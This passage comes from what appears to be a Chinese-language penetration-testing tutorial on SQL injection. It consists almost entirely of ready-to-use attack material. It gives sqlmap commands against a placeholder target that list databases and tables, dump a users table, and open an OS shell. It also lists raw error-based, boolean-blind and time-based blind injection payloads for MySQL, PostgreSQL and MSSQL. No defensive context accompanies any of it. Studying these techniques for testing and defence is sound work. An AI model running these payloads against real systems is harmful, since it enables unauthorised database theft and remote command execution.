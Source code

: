 ```bash
# 基本測試
sqlmap -u "http://target.com/page.php?id=1"

# 指定測試參數
sqlmap -u "http://target.com/page.php?id=1" -p id

# Cookie注入測試
sqlmap -u "http://target.com/page.php" --cookie="id=1"

# POST數據注入
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=123"

# 從Burp Suite請求文件測試
sqlmap -r request.txt

# 獲取資料庫名稱
sqlmap -u "http://target.com/page.php?id=1" --dbs

# 獲取表格名稱
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# 獲取欄位名稱
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns

# 導出數據
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --dump

# 獲取Shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell
```

**5.1.4 不同類型SQL注入**：

**Error-based注入**：

```sql
# 故意產生錯誤獲取資訊
' AND (SELECT COUNT(*) FROM information_schema.tables)--
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e))--
' AND 1=CONVERT(int, @@version)--
```

**Boolean-based盲注**：

```sql
# 基於真/假判斷
' AND LENGTH(database())=8--
' AND SUBSTRING(database(),1,1)='a'--
' AND ASCII(SUBSTRING(database(),1,1))=97--
```

**Time-based盲注**：

```sql
# MySQL
' AND IF(LENGTH(database())=8, SLEEP(5), 0)--

# PostgreSQL
'; SELECT CASE WHEN LENGTH(current_database())=8 THEN pg_sleep(5) ELSE 0 END--

# MSSQL
'; IF (LEN(DB_NAME())=8) WAITFOR DELAY '00:00:05'--
```
